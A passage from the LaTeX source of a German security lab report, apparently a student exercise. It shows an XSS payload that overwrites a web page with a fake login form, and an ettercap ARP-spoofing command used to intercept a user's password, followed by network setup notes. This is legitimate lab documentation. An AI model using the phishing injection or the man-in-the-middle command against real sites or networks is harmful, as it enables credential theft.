    
\includegraphics[width=17cm]{xss-keylogger-network-traffic.png}
    \caption{Netzwerkverkehr des XSS-Keyloggers}
    \label{fig:xss-keylogger-network-traffic}
\end{figure}

\noindent Dann wurde eine Phishing-Seite imitiert, die eine legitime Website nachahmt, um Benutzerdaten zu stehlen:
\begin{lstlisting}[breaklines]
<img src="" onerror="(function(){
  document.body.innerHTML = `
    <div style='position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: #f0f2f5; display: flex; justify-content: center; align-items: center;'>
      <div style='background-color: #fff; padding: 20px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); width: 360px; text-align: center;'>
        <h2 style='color: #1877f2; font-family: Helvetica, Arial, sans-serif; margin-bottom: 20px;'>Website</h2>
        <form>
          <input type='text' placeholder='Email or Phone Number' style='width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
          <input type='password' placeholder='Password' style='width: 100%; padding: 10px; margin-bottom: 20px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
          <button type='submit' style='width: 100%; padding: 10px; background-color: #1877f2; color: white; border: none; border-radius: 4px; font-size: 16px; cursor: pointer;'>Log In</button>
        </form>
        <div style='margin-top: 10px;'>
          <a href='#' style='color: #1877f2; font-size: 14px; text-decoration: none;'>Forgotten password?</a>
        </div>
      </div>
    </div>
  `;
}())">
\end{lstlisting}

\noindent Diese Injektion ersetzt den gesamten Inhalt der Webseite durch eine Login-Maske, die Benutzer zur Eingabe ihrer Anmeldedaten verleiten könnte. Das Ergebnis dieser Injektion ist in der folgenden Abbildung dargestellt:

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{xss-phishing-page-injection.png}
    \caption{Darstellung der XSS-injizierten Phishing-Seite}
    \label{fig:xss-phishing-page-injection}
\end{figure}

\noindent Wie man sehen kann, wurde die ursprüngliche Webseite vollständig durch eine gefälschte Login-Maske ersetzt. Dies verdeutlicht das erhebliche Risiko, das von XSS-Schwachstellen ausgeht.

\FloatBarrier

\subsection{ARP Spoofing}
Für das ARP-Spoofing wurde die CLI Version des Tools \lstinline[breaklines]|ettercap| genutzt. Das Tool wurde mit dem Befehl \lstinline[breaklines]|sudo ettercap -T -M arp /192.168.0.220// /192.168.0.221//| aufgerufen \cite{ettercap-manual}:
\begin{enumerate}
	\item \lstinline[breaklines]|-T|: Nutze die einfache Textausgabe
	\item \lstinline[breaklines]|-M arp|: Führe einen Man-in-the-Middle (MITM) Angriff aus, nutze dafür ARP
	\item \lstinline[breaklines]|/192.168.0.220//|: Nutze die Firewall als Ziel 1
	\item \lstinline[breaklines]|/192.168.0.221//|: Nutze den Webserver als Ziel 2
\end{enumerate}
Folgende Screenshots zeigen die ARP-Tabellen der einzelnen Geräte, sowie die MAC-Adresse der Kali-Maschine: \\ \\
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{arp-firewall.png}
	\caption{ARP-Tabelle der Firewall}
	\label{fig:arp-firewall}
\end{figure}
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{arp-webserver.png}
	\caption{ARP-Tabelle des Webservers}
	\label{fig:arp-webserver}
\end{figure}
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{arp-mac-kali.png}
	\caption{MAC-Adresse der Kali-Maschine}
	\label{fig:arp-mac-kali}
\end{figure} 
\\ \\
Man kann sehen das die IP-Adresse der Firewall und des Webservers jeweils in den jeweiligen Screenshots die MAC-Adresse der Kali-Maschine haben. Dies bedeutet das Pakete welche von der Firewall aus zum Webserver gesendet werden, an die Kali-Maschine gesendet werden, das Gleiche gilt auch für Pakete die vom Webserver an die Firewall gesendet werden.
\\ \\
Es war uns möglich eine Anmeldung auf dem Webserver zu lesen und das Passwort des Benutzers zu erhalten:
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{arp-shark-packete.png}
	\caption{Wireshark Traffic einer Anmeldung}
	\label{fig:arp-shark-packete.png}
\end{figure}
\\ \\
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{arp-shark-packet-5.png}
	\caption{Inhalt des 5. Pakets mit dem Passwort des Benutzers}
	\label{fig:arp-shark-packet-5}
\end{figure} 

\subsubsection{IDS gegen ARP-Spoofing}
Das eingesetzte IDS, Suricata, bietet keinen Schutz gegen und ist nicht in der Lage ARP-Spoofing zu erkennen.

\newpage
\section{Anhang}

\subsection{Netzwerk}
Im folgenden wird das Netzwerk sowie die darin enthaltenen IP-Adressen dargelegt.
\begin{itemize}
	\item Basis-IP: 192.168.0.0
	\item Netzmaske: 255.255.255.0 (CIDR: 24)
	\item Erste IP-Adresse: 192.168.0.1
	\item Letzte IP-Adresse: 192.168.0.254
	\item Bestehende Clients:
		\subitem Firewall: 192.168.0.220
		\subitem Webserver: 192.168.0.221
		\subitem Client: 192.168.0.100
\end{itemize}

\subsection{Hinzufügen eines Cron-Jobs}\label{cron-job}
Um einen Cron-Job anzulegen wurden folgende Schritte durchgeführt.
\begin{enumerate}
	\item Der jeweils relevante Firewall-Skript wurde ausführbar gemacht: \\ \lstinline[breaklines]|$ sudo chmod +x <name des Skripts>|.
	\item Das Interface zum bearbeiten der Crontabs wurde geöffnet: \\ \lstinline[breaklines]|sudo crontab -e|.
	\item Am Ende wurde die Zeile \lstinline[breaklines]|@reboot sudo bash <pfad zum Skript>| eingefügt.
\end{enumerate}

\subsection{Setzen einer statischen IP-Adresse}\label{static-ip}
Um eine statische IP-Adresse zu setzen wurden folgende Schritte durchgeführt.
\begin{enumerate}
	\item Die Datei \lstinline[breaklines]|/etc/network/interfaces| wurde mit einem Texteditor geöffnet.
	\item Die bestehenden Einträge wurden auskommentiert.
	\item Folgender Text wurde am Ende eingefügt:
	\begin{lstlisting}[breaklines]
auto eth0
iface eth0 inet static
	address <statische ip-adresse hier>
	netmask 255.255.255.0
	gateway 192.168.0.220 # ip adresse der firewall
	\end{lstlisting}
	\item Die Datei wurde gespeichert und das System neugestartet.
\end{enumerate}
Folgende Inhalte hat die \lstinline[breaklines]|/etc/network/interfaces|-Datei auf dem jeweiligen System: \newpage
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{interface-firewall.png}
	\caption{Interface der Firewall}
	\label{fig:interface-firewall}
\end{figure}
\begin{figure}[!ht]
	\centering
	
\includegraphics[width=10cm]{interface-webserver.png}
	\caption{Interface des Webservers}
	\label{fig:interface-webserver}
\end{figure}

% Referenzen bitte in references.bib einfügen
\newpage
\bibliographystyle{ieeetr}
\bibliography{references}
\end{document}
